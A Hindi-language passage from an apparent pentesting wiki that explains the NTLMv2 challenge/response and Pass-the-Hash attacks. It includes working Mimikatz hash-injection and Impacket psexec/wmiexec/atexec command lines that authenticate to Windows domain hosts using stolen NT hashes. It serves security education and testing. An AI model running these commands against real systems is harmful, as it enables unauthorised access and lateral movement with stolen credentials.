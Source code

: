 **चुनौती की लंबाई 8 बाइट है** और **2 प्रतिक्रियाएँ भेजी जाती हैं**: एक **24 बाइट** लंबी है और **दूसरी** की लंबाई **परिवर्तनीय** है।

**पहली प्रतिक्रिया** को **HMAC\_MD5** का उपयोग करके **क्लाइंट और डोमेन** से बनी **स्ट्रिंग** को सिफर करके बनाया जाता है और **NT हैश** के **हैश MD4** को **कुंजी** के रूप में उपयोग किया जाता है। फिर, **परिणाम** को **चुनौती** को सिफर करने के लिए **HMAC\_MD5** का उपयोग करने के लिए **कुंजी** के रूप में उपयोग किया जाएगा। इसके लिए, **8 बाइट की क्लाइंट चुनौती जोड़ी जाएगी**। कुल: 24 B।

**दूसरी प्रतिक्रिया** को **कई मानों** (एक नई क्लाइंट चुनौती, **टाइमस्टैम्प** ताकि **पुनः प्रक्षिप्त हमलों** से बचा जा सके...) का उपयोग करके बनाया जाता है।

यदि आपके पास एक **pcap है जिसने सफल प्रमाणीकरण प्रक्रिया को कैप्चर किया है**, तो आप डोमेन, उपयोगकर्ता नाम, चुनौती और प्रतिक्रिया प्राप्त करने के लिए इस गाइड का पालन कर सकते हैं और पासवर्ड को क्रैक करने की कोशिश कर सकते हैं: [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://www.801labs.org/research-portal/post/cracking-an-ntlmv2-hash/)

## Pass-the-Hash

**एक बार जब आपके पास पीड़ित का हैश हो**, तो आप इसका **नकली रूप** बना सकते हैं।\
आपको एक **उपकरण** का उपयोग करने की आवश्यकता है जो उस **हैश** का उपयोग करके **NTLM प्रमाणीकरण करेगा**, **या** आप एक नया **सत्रलॉगन** बना सकते हैं और उस **हैश** को **LSASS** के अंदर **इंजेक्ट** कर सकते हैं, ताकि जब भी कोई **NTLM प्रमाणीकरण किया जाए**, वह **हैश का उपयोग किया जाएगा।** अंतिम विकल्प वही है जो मिमिकैट्ज़ करता है।

**कृपया याद रखें कि आप कंप्यूटर खातों का उपयोग करके भी पास-थे-हैश हमले कर सकते हैं।**

### **Mimikatz**

**इसे व्यवस्थापक के रूप में चलाने की आवश्यकता है**
```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```
यह एक प्रक्रिया शुरू करेगा जो उन उपयोगकर्ताओं से संबंधित होगी जिन्होंने mimikatz लॉन्च किया है, लेकिन आंतरिक रूप से LSASS में सहेजे गए क्रेडेंशियल्स वही हैं जो mimikatz पैरामीटर के अंदर हैं। फिर, आप नेटवर्क संसाधनों तक उस उपयोगकर्ता के रूप में पहुंच सकते हैं (जैसे `runas /netonly` ट्रिक, लेकिन आपको स्पष्ट-पाठ पासवर्ड जानने की आवश्यकता नहीं है)।

### लिनक्स से पास-थे-हैश

आप लिनक्स से पास-थे-हैश का उपयोग करके Windows मशीनों में कोड निष्पादन प्राप्त कर सकते हैं।\
[**यहां पहुंचें यह सीखने के लिए कि इसे कैसे करना है।**](https://github.com/carlospolop/hacktricks/blob/master/windows/ntlm/broken-reference/README.md)

### Impacket Windows संकलित उपकरण

आप [यहां Windows के लिए impacket बाइनरी डाउनलोड कर सकते हैं](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries)।

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (इस मामले में आपको एक कमांड निर्दिष्ट करने की आवश्यकता है, cmd.exe और powershell.exe इंटरएक्टिव शेल प्राप्त करने के लिए मान्य नहीं हैं)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* और भी कई Impacket बाइनरी हैं...
